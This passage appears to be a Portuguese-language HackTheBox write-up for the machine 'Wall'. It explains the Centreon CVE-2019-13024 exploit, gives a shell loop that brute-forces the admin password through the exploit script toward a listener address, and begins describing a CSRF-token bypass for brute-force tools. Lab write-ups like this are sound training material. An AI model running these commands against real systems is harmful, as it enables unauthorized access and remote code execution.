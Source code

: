 Procuramos no Google exploits para Centreon no GitHub

Encontramos esse que nos chamou a atenção (e também por que foi o primeiro, mais por esse fato na verdade)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_p.png)

> https://github.com/mhaskar/CVE-2019-13024

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_p1.png)

Também é o mesmo que está no seachsploit (47069.py)

Vamos analisar o que ele faz, e como podemos adaptar ele pra nossa situação (o 0xdf, fez isso muito bem, até aprendi com ele, fica a dica de ir lá no blog dele dar uma olhada)

Se olharmos ele faz 5 requisições para o site

A primeira um GET para o index.php - para pegar o cookie da seção e o token CRSF
A segunda um POST também para o index.php - para realizar o login. Se der falha, ele simplesmente printa uma mensagem de erro e sai
A tereira um GET para /main.get.php?p=60901 - para pegar um POLLER TOKEN
A quarta um POST para o /main.get.php?p=60901 - que vai o payload em si
A quinta um GET para /include/configuration/configGenerate/xml/generateFiles.php - para ativar o payload

Humm... pensando assim, se ele der erro com a senha, ele simplesmente sai da página. Se der certo, printa Login Sucesso... que tal se nós fazermos um loop em uma wordlist até ele encontrar a senha de admin, e depois disso dar break e printar a senha? Interessante, não?

Vamos tentar

No caso eu utilizei uma wordlist pequena, que eu sei que possui a senha de admin da aplicação

> /usr/share/wordlists/dirb/others/best110.txt

O comando final ficou assim

```
for pass in $(cat /usr/share/wordlists/dirb/others/best110.txt); do python 47069.py http://10.10.10.157/centreon admin $pass 10.10.14.30 443 | g
rep "Logged In" && echo $pass && break; done 2> /dev/null
```

Depois de um tempo ele encontrou a senha, printo ela e saiu da aplicação

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_beaut.png)

Bom, a senha de admin da aplicação é *password1*

Beleza, conseguimos, mas vamos explicar agora outro método. Um que vai mais a fundo de como está funcionando esse CSRF e como vamos bypassar ele pra utilizar ferramentas de BruteForce

### 2º Modo - manual

Quando verificamos no BurpSuite a requisição, vemos que ele tem o CSRF Token na requisição

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_a1.png)
